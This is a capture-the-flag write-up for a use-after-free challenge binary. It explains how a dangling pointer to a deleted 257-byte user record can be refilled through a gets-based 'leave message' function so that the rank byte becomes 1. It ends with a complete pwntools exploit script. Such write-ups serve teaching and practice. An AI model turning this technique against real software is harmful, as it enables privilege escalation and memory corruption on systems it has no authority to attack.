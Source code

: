 # Use After Free

This challenge tells us where in the memory each user was created and gives us a hint that a user structure is 257 bytes long.

![](../images/uaf_1.png)


The **view_flag** function can be called through the menu. But we can not read the flag unless we are rank 1. If we create a user or login with existing users (they can be displayed through the menu) our rank will be 2.

![](../images/uaf_2.png)



In the **User** structure, rank is the last variable and takes exactly one byte. Which means it is possible to place 1 in the rank, if we place it at the end of the structure. the 257th byte.

![](../images/uaf_4.png)


The dangling pointers have a problem that the freed space will still be pointed at. WE can exploit it by deleting a user, which will still be pointed at by the system, and over writing it with whatever we want. 

The problem remains how to overwrite that place.

There is an interesting function in the source code called **leave message** and it is using an unsafe function **gets** for input.

![](../images/uaf_3.png)


We can hope that when we leave the message, it is stored in the place we just freed by deleting a user.

If we are logged in with the user account we delete, and overwrite to have admin rank, we can easily view the flag.


## Exploit
The startegy turns out to be:
```python
from pwn import *

target = './use-after-free'
e = context.binary = ELF(target,checksec=True)
context.log_level='debug'

io = process(target)

print(io.recvuntil('>>>'))
io.sendline("1")
io.recvuntil('Username: ')
io.sendline("sam")
io.recvuntil('Password: ')
io.sendline("1234")


print(io.recvuntil('>>>'))
io.sendline("3")
io.recvuntil("ete: ")
io.sendline("sam")


print(io.recvuntil('>>>'))
io.sendline("6")

print(io.recvuntil('>>>'))
print("Sending the Payload NOW")
struct = 0x100
payload = ''
payload += cyclic(struct)
payload += "1"

io.sendline(payload)

print(io.recvuntil('>>>'))
io.sendline("4")


print(io.recvall())

```